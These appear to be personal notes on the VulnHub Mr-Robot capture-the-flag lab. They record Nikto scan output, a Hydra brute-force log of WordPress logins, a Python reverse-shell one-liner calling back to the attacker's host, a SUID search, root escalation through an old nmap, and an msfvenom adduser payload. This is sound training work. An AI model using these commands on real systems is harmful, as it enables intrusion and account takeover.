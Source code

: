 # MrRobot CTF

[link](https://www.vulnhub.com/entry/mr-robot-1,151/)

Target Machine: 172.16.8.130

First key located on webserver under robots.txt file:
1:073403c8a58a1f80d943455fb30724b9

Scanning for services etc.
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          172.16.8.130
+ Target Hostname:    172.16.8.130
+ Target Port:        80
+ Start Time:         2017-11-17 12:00:25 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Retrieved x-powered-by header: PHP/5.5.29
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server leaks inodes via ETags, header found with file /robots.txt, fields: 0x29 0x52467010ef8ad 
+ Uncommon header 'tcn' found, with contents: list
+ Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
+ OSVDB-3092: /admin/: This might be interesting...
+ OSVDB-3092: /readme: This might be interesting...
+ Uncommon header 'link' found, with contents: <http://172.16.8.130/?p=23>; rel=shortlink
+ /wp-links-opml.php: This WordPress script reveals the installed version.
+ OSVDB-3092: /license.txt: License file found may identify site software.
+ /admin/index.html: Admin login page/section found.
+ Cookie wordpress_test_cookie created without the httponly flag
+ /wp-login/: Admin login page/section found.
+ /wordpress/: A Wordpress installation was found.
+ /wp-admin/wp-login.php: Wordpress login found
+ /blog/wp-login.php: Wordpress login found
+ /wp-login.php: Wordpress login found
+ 7535 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2017-11-17 12:07:23 (GMT-5) (418 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested


Using hydra to brute force password:

ATTEMPT] target 172.16.8.130 - login "Elliot" - pass "esteem" - 5648 of 11452 [child 5] (0/0)
[ATTEMPT] target 172.16.8.130 - login "Elliot" - pass "Estudiante" - 5649 of 11452 [child 2] (0/0)
[ATTEMPT] target 172.16.8.130 - login "Elliot" - pass "etc" - 5650 o
f 11452 [child 12] (0/0)
[ATTEMPT] target 172.16.8.130 - login "Elliot" - pass "etherial" - 5651 of 11452 [child 11] (0/0)
[ATTEMPT] target 172.16.8.130 - login "Elliot" - pass "Ethics" - 5652 of 11452 [child 10] (0/0)
[ATTEMPT] target 172.16.8.130 - login "Elliot" - pass "etiquette" - 5653 of 11452 [child 4] (0/0)
[ATTEMPT] target 172.16.8.130 - login "Elliot" - pass "euphoric" - 5654 of 11452 [child 0] (0/0)
[ATTEMPT] target 172.16.8.130 - login "Elliot" - pass "evaimages" - 5655 of 11452 [child 15] (0/0)
[80][http-post-form] host: 172.16.8.130   login: Elliot   password: ER28-0652
[STATUS] attack finished for 172.16.8.130 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2017-11-17 12:55:20


Wordpress DB Info: 

User: bn_wordpress
Password: 570fd42948

Host info:
Linux: 3.13.0-55-generic
Webuser: daemon 
PHP Version: 5.5.29


Got reverse shell:

robot:c3fcd3d76192e4007dfb496cca67e13b

cracked hash: abcdefghijklmnopqrst

System Info
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=14.04
DISTRIB_CODENAME=trusty
DISTRIB_DESCRIPTION="Ubuntu 14.04.2 LTS"
NAME="Ubuntu"
VERSION="14.04.2 LTS, Trusty Tahr"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 14.04.2 LTS"
VERSION_ID="14.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"

Key 2 located in /home/robot:
822c73956184f694993bede3eb39f959

Highest priv escalation so far: daemon > robot

Looking for ways to gain additional priv, need root

Services running as root:
php-fpm (exec code would also run as root?)
no joy, lets try another payload?

Get a better shell:
python -c 'import pty;pty.spawn("/bin/bash")'

Adding a reverse shell to make my life easier

echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.16.8.129",6443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> shell.py


nc -nvlp 6443

Checking for files that have the set uid sticky bit. This means these files will run as the owner, not as the user that started it

find / -perm -4000 -type f 2>/dev/null

old version of nmap with the sticky bit on, meaning if we can get it to run commands for us they will be run as root

sr-xr-x  1 root root 504736 Nov 13  2015 nmap

We have root so in theory we could run the change user payload?


msfvenom -p linux/x86/adduser USER=tenji PASS=gotem -f c


Found the third key in /root

04787ddef27c3dee1ee161b21670b4e4
 
